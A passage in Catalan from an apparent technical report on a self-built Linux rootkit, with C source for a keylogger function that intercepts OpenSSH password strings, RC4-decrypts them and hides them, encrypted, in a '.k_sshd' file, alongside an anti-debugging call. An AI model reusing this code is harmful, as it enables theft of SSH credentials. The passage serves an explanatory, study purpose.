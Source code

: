 Les dades capturades són emmagatzemades en un fitxer relatiu al home del rootkit anomenat ``.k\_sshd''. 
El contingut d'aquest fitxer està xifrat amb el mateix password que s'utilitza per xifrar el contingut
dels paquets de xarxa així com per autenticar el client amb el launcher. Per tal de poder accedir de
manera fàcil al contingut en clar d'aquest fitxer, el propi launcher permet ser llançat per tal de desxifrar
el fitxer ``.k\_sshd''.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] check_ssh_password(@PYaJ[unsigned] @PYaJ[char] @PYbe[*]buff, @PYaJ[int] len){
	@PYaE[// Password string is | uint | chars |]
	@PYay[if] (len @PYbe[>] @PYag[32] @PYbe[|]@PYbe[|] len @PYbe[<] @PYag[5]) @PYay[return] @PYag[0];

    @PYaE[// ptr points to the last char of the string]
	@PYaJ[unsigned] @PYaJ[char] @PYbe[*]ptr @PYbe[=] buff@PYbe[+]len@PYbe[-]@PYag[1];
	@PYay[while] (@PYbe[*]ptr @PYbe[!]@PYbe[=] @PYaT[0x00]) ptr@PYbe[-]@PYbe[-];

	antidebug_obfuscate_analysis(@PYag[11]);
	@PYaE[// Now we must have two bytes 0x00 at left and one < 0x0f at right]
	@PYay[if] ( @PYbe[*](ptr@PYbe[-]@PYag[1]) @PYbe[!]@PYbe[=] @PYaT[0x00] @PYbe[|]@PYbe[|] @PYbe[*](ptr@PYbe[-]@PYag[2]) @PYbe[!]@PYbe[=] @PYaT[0x00]) @PYay[return] @PYag[0];

	@PYaE[// Now bytes from ptr+2 to buff+len-1 has to be exactly *ptr+1]
	@PYay[if] (((buff@PYbe[+]len@PYbe[-]@PYag[1])@PYbe[-](ptr@PYbe[+]@PYag[1])) @PYbe[!]@PYbe[=] @PYbe[*](ptr@PYbe[+]@PYag[1])) @PYay[return] @PYag[0];

    @PYay[if] (useRc4) {
        rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])RC4KEY, @PYay[sizeof](RC4KEY), @PYbe[&]rc4_crypt);
        rc4(ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]), @PYbe[&]rc4_crypt);
    }
    write(@PYag[1], ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]));
    putchar(@PYac['\n']);

    @PYay[return] @PYag[1];
}
\end{Verbatim}
    \caption{keylogger.c::check\_ssh\_password()}
    \label{fig:keylogger_check_password}
\end{figure}
      
En la figura \ref{fig:keylogger} es mostra el tros de codi que comproba que l'string llegit és un string 
de usuari o de password i en cas de ser-ho ho xifra i ho escriu al fitxer en qüestió ja que previament 
s'hi ha mapejat el descriptor de fitxer 1. Aquesta funció és cridada quan s'intercepta un string llegit per
un read() per a comprobar que segueix el format que utilitza l'Openssh. \\

